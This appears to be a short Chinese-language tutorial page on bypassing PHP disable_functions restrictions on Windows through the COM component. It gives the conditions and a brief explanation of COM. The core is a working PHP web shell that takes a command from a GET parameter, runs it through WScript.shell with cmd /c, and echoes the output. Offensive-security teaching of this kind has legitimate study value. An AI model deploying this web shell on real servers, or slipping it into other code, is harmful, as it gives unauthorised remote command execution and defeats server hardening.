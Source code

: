 > 原文：[http://book.iwonder.run/安全技术/Disable functions/6.html](http://book.iwonder.run/安全技术/Disable functions/6.html)

## 利用系统组件 window com 绕过

**1\. 利用条件**

*   Windows
*   php5.x（高版本扩展要自己添加）
*   支持 COM 组件

**2\. 基本原理**

COM 组件它最早的设计意图是，跨语言实现程序组件的复用 COM 组件由以 Win 32 动态连接库（DLL）或可执行文件（EXE）形式发布的可执行代码所组成。遵循 COM 规范编写出来的组件将能够满足对组件架构的所有要求。COM 组件可以给应用程序、操作系统以及其他组件提供服务；自定义的 COM 组件可以在运行时刻同其他组件连接起来构成某个应用程序；COM 组件可以动态的插入或卸出应用。

![image](img/f1bca5d202c33234cc25b1eb7b412a4a.png)

```
<?php
$command=$_GET['a'];
$wsh = new COM('WScript.shell'); // 生成一个 COM 对象　Shell.Application 也能
$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?> 
```

![image](img/faead2420fb9a8ff01864687b11df63d.png)


